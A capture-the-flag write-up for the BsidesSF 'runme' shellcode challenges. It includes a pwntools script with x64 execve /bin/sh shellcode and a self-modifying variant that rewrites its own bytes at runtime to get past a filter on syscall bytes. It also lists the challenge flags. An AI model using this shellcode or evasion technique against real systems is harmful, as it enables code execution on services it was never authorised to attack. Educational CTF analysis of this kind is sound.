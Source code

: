 ## BsidesSF CTF: runme 1,2,3 [pwn]
##### *tl;dr: basic shellcode for 1 & 2, self-modifying shellcode for 3*

#### These series involved challenges revolving around the concept of shellcode. For the easier challenges (1, 2), we only had to provide a simple x64 shellcode which spawns a shell (1) and does not have null bytes in it (2).

#### What made the series interesting was the third challenge which blacklisted the bytes needed to make the `int 0x80` and `syscall` instructions. To solve this, I ported an existing [self-modifying shellcode](http://shell-storm.org/shellcode/files/shellcode-505.php) to an x64 version and did some slight adjustments on the calculations that are made. In summary, the shellcode finds a target sequence of bytes in our payload and performs some calculation in order to get the needed bytes, therefore bypassing the blacklist.

#### I got stumped for a while despite forming a proper execve shellcode, but realized what I was doing wrong. Note to self, execve requires a pointer to the /bin/sh string in memory instead of simply the contents in a register.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
#p = process('./runme3')
#p = remote("runme-bc63cb99.challenges.bsidessf.net", 1337)
#p = remote("runme2-91ab7154.challenges.bsidessf.net", 1337)
p = remote("runme3-3f8ecff9.challenges.bsidessf.net", 1337)

#: GDB SETTINGS
breakpoints = ['break *main + 438']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: PWN THY VULNS
context.arch = 'amd64'
#: for runme 1 & 2
#p.sendline(asm(shellcraft.sh()))

#: for runme 3
self_modifying_shellcode = asm('''

	_start:
		jmp _fuckaround_and_findout

	_scanbytes:
		pop rdx
		mov rsi, rdx

	_loopmakesyscall:
		mov rax, [rdx]
		cmpw ax, 0x3713
		jne _not_target
		subw ax, 0x3204
		mov [rdx], rax
		
	_not_target:
		inc dl
		cmp eax, 0x41414141
		jne _loopmakesyscall
		jmp rsi

	_fuckaround_and_findout:
		call _scanbytes

	_payload:
		xor rdx, rdx
		xor rdi, rdi
		xor rsi, rsi
		xor rax, rax
		push rax
		movabs rbx, 0x68732f2f6e69622f
		push rbx
		lea rdi, [rsp]
		mov al, 0x3b
		.ascii "\x13\x37"
		.ascii "AAAAAAAA"
	''')

#:
p.sendline(self_modifying_shellcode)
p.interactive()

#: CTF{welcome_to_shellcode}
#: CTF{welcome_to_shellcode_again}
#: CTF{welcome_to_shellcode_once_more}
```